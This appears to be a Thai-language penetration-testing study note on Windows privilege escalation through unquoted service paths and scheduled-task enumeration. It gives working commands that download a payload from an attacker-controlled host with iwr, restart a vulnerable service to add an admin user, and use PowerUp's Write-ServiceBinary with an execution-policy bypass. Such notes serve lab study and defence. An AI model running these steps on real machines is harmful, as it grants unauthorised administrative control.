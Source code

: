 ```powershell

Successfully processed 1 files; Failed processing 0 files
```

ให้ลองหา Permission ของ Path ที่มีสิทธิของ Users เป็น W ขึ้นไป จากตัวอย่างจะเห็นว่า Path C:\Program Files\Enterprise Apps\ นั้นมีช่องโหว่สามารถเขียนได้ 

โดยเมื่อพบแล้วเราสามารถนำ Code ที่ไม่ปลอดภัยไปวางใน Path ดังกล่าว คือ 

```powershell
C:\Program Files\Enterprise Apps\. 
```


การโจมตีจะต้องตั้งชื่อ Payload เป็น Current.exe ซึ่งเป็นตัวต่อของ Path ของ Service ดังกล่าว

```powershell
iwr -uri http://192.168.45.168/adduser.exe -Outfile Current.exe
# จากนั้นเปิดปิด Service ที่มีช่องโหว่อีกครั้ง
Start-Service GammaService
Stop-Service GammaService
Restart-Service GammaService

# จะพบว่ามี user deav2 ถูกเพิ่มขึ้นและมีสิทธิ์เป็น Admin

```

--- 
อีกวิธีคือ การใช้งาน PowerUp.ps1 สำหรับ [[Unquoted Service Paths]] 

```powershell

powershell -ep bypass
. .\PowerUp.ps1

Get-UnquotedService
# ตรวจสอบ icacls ในแต่ละ Path จนพบสิทธิที่สามารถดำเนินการเขียนทับได้ 
PS C:\Users\damian\Desktop> icacls.exe  'C:\Enterprise Software\Monitoring Solution'
C:\Enterprise Software\Monitoring Solution CLIENTWK221\damian:(OI)(CI)(RX,W)
                                           BUILTIN\Administrators:(OI)(CI)(F)
                                           NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                           BUILTIN\Users:(OI)(CI)(RX)

# รันคำสั่ง Write-ServiceBinary 
Write-ServiceBinary -Name 'ReynhSurveillance' -Path "C:\Enterprise Software\Monitoring Solution\Surveillance.exe"

# จากนั้นใช้คำสั่ง Netuser จะเห็น john:Password123!
net user 
```

[[## Scheduled Tasks]]

```powershell
# ตรวจสอบ Tasklist 
schtasks /query /fo LIST /v 
schtasks /query /fo LIST | findstr "TaskName"
schtasks /query /fo LIST /v /tn "\Microsoft\Voice Activation"
```
![[Stask-1.png]]
